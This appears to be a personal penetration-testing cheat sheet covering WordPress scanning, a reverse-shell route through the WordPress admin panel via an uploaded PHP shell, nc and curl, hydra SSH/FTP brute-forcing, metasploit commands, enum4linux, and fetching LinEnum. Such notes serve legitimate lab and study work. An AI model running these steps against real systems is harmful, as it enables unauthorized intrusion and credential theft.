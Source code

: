 > zoom (much faster than wp-scan)
discover wordpress on site and find users and vulnerabilites:
```bash
./zoom.py -u http://192.168.1.34/
```
* get reverse shell while wp admin:
    * mfsconsole > search wp_admin > use found exploit
    * or: download reverse shell php script > edit script with host
        * upload scriipt to a page in wp admin panel
            * ``nc -lvp 1234``
            * `` curl http://192.168.1.10/404.php `` (use the selected page)

# hydra
* put possible usernames in file.txt
```bash
hydra -L file.txt -P /usr/share/wordlists/rockyou.txt.gz ssh://192.168.1.10
```
* small l and small p to enter literal
```bash
hydra -t 1 -l admin -P /root/Desktop/password.lst -vV 192.168.1.1 ftp
```

# metasploit (msfconsole)
* modules located at ``/usr/share/metasploit-framework/modules``
* use an exploit/module:
    * ``use exploit/windows/browser/adobe_flash_avm2``
        * 'show' gives info on an exploit/module
            * ``'show options'``
            * ``'show payloads'``
            * ``'show targets'``
            * ``'show info'``
        * set SRVPORT 80 (enter, see show options)
    * search for modules:
        * ``search vsftpd``
        * ``search ssh_version``
        * ``search type:exploit platform:windows flash``
    * execute exploit:
        * 'exploit'
        * scan auxuiliary:
        * 'run'
    * back/exit
    * searchsploit openssh 6.6

# enum4linux:
```bash
enum4linux 192.168.1.10
```

# unix
```bash
uname
lsb_release -a
/etc/os-release
/etc/issue
id to check if in sudo group
```
linenum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
